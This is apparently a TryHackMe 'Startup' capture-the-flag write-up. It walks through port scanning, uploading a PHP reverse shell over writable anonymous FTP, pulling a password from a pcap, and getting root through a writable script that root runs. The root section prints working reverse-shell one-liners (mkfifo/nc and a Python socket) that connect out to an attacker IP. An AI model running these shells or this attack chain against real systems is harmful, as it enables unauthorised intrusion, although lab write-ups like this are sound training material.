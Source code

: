 ```yaml
---
title: Startup
date: 2022-07-06 17:00:00 +500
categories: [thm, easy-machines]
tags: []    # TAG names should always be lowercase
---
```


![](https://i.ibb.co/zxb3d2j/spicesmall.png)

We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck!


### What is the secret spicy soup recipe?

Let's start with a Nmap scan

```terminal
nmap -p- -sS --min-rate 10000 --open -vvv -n -Pn 10.10.16.11
```

```
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 60
22/tcp open  ssh     syn-ack ttl 60
80/tcp open  http    syn-ack ttl 60
```

so we have a web page with a message that there is no spice. I'll let a gobuster scan run, while I check the FTP server. `gobuster dir -u http://10.10.16.11 -w /usr/share/dirb/wordlists/common.txt -x .php`

In the FTP server, it admits anonymous login, and we have two files:

notice.txt
```
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I don't know who it is, but Maya is looking pretty sus.
```
Maya is a potential username.

and important.jpg which is an among us meme photo.

notice how the FTP folder is writable.


now let's come back to the gobuster scan, and we have something: `/files`{: .filepath} which if we notice is the FTP server. Since we have writing permissions on the FTP server and we have access via the web server, let's try to upload a [reverse shell](https://github.com/cotes2020/jekyll-theme-chirpy/fork) and execute it from the webserver.

So now you'll have to be on the directory where you have the reverse shell and connect to the FTP server, go to the folder that we have writing permission, now to upload a file to an FTP server with "`put` [file name]", in this case, `put reverseshell.php`.

now let's set up a listener that will receive the shell connection request.

```terminal
nc -lvpn [the port you choose on the reverseshell]
```

and finally, let's head over to the webpage and execute the file we just upload. It worked! now we have a shell on the target's machine.

listing the directory we have recipe.txt

>

### What are the contents of user.txt?

Enumerating a little the system, we see that there's a user 'lennie'. After a while of looking around, I wasn't able to find anything, so I'll try to use [linPeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS). I'll make a Python server on my machine with `python3 -m http.server` then on the target's machine `wget [your IP]:[PORT]/linpeas.sh`, and now run it with `bash ./linpeas.sh`.

after trying without luck, some exploits, I see this directory "/incidents/suspicious.pcapng", actually a few times during the linpeas execution, this is a format used to record captured network packet traces to a file, so let's see if we find anything interesting.

transfer it to your local machine with a Python server.

let's open the file with wireshark and analyze it, the last http request has a directory to a revershell apparently.
"[Request URI: http://192.168.33.10/files/ftp/shell.php]" someone that entered the system the same way we did.

let's export it all into a text file, so it's easier to read the content 'file -> Export Packet Dissections > as plain text' and see what's in it (I know this is not the best way but will do it) notice how every Linux command is after a hex direction and before that there's a number like '0000' or '0020' i was looking after those, looking what commands this person entered, and after a 'sudo -l' is prompted for a password and there's a password in the next packet, I thought it was www-data password but it was actually Lennie's password.

now we can use a more stable shell and login with ssh to the user Lennie.

and in his home directory is the flag user.txt

> 

### What are the contents of root.txt?

In Lennie's directory there's a "scripts" folder, in it it has a script that put the variable $LIST into the "startup_list.txt", first I thought there was going to be a crontab that executes this and may be vulnerable, but no. The files also are owned by root and are no writable, except for "/etc/print.sh".

let's try to put a reverse shell and execute it

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.26.231 1234 >/tmp/f`
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.26.231",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

`bash /etc/print.sh`

It worked, and we got root! But not because I executed it. When I ran it, I got an error, so it must be a crontab from the root user, for sure.

now that we are root we can cat the root flag

>
